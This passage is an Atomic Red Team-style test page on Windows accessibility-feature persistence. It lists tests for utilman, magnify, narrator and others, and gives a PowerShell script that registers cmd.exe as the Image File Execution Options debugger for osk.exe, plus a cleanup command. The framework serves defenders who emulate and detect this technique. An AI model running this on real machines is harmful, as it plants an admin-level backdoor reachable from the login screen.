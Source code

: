- [Atomic Test #3 - Attaches Command Prompt As Debugger To Process - utilman](#atomic-test-3---attaches-command-prompt-as-debugger-to-process---utilman)

- [Atomic Test #4 - Attaches Command Prompt As Debugger To Process - magnify](#atomic-test-4---attaches-command-prompt-as-debugger-to-process---magnify)

- [Atomic Test #5 - Attaches Command Prompt As Debugger To Process - narrator](#atomic-test-5---attaches-command-prompt-as-debugger-to-process---narrator)

- [Atomic Test #6 - Attaches Command Prompt As Debugger To Process - DisplaySwitch](#atomic-test-6---attaches-command-prompt-as-debugger-to-process---displayswitch)

- [Atomic Test #7 - Attaches Command Prompt As Debugger To Process - AtBroker](#atomic-test-7---attaches-command-prompt-as-debugger-to-process---atbroker)


<br/>

## Atomic Test #1 - Attaches Command Prompt As Debugger To Process - osk
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | osk.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /f
```
